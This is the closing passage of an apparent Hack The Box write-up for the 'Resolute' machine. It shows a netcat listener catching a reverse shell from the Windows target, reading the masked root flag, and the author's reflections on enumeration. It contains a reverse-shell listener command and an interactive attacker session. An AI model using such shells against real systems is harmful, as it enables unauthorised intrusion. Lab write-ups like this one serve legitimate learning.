What should happen is after the DNS server restarts, my payload should be executed and I should catch a shell on my listener:


```console
root@discovery:~/htb/resolute# nc -lvnp 42069
listening on [any] 42069 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.10.169] 53475
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
 
C:\Windows\system32>cd /  
cd /
 
C:\>cd users
cd users

C:\Users>cd Administrator
cd Administrator
 
C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
e1d94*****************e619c
C:\Users\Administrator\Desktop>
```

# Conclusion

Well that worked a lot better than I thought I was going to get it to work. I didn't fall down many rabbit holes, I think I need to add an actual checklist step to remind myself to return to my checklist and just enumerate more. I feel I have similar conclusions to a lot of these boxes lately. I also should publish my process checklist for anyone who might be interested in learning from my mistakes and failures (and minor successes too). 

This box was frustrating at times, I did learn a fair amount but windows machines really get me. I should force myself to focus on them some more to get better, but they just don't feel as nice as linux boxes do. Oh god am I becoming one of *those guys*?
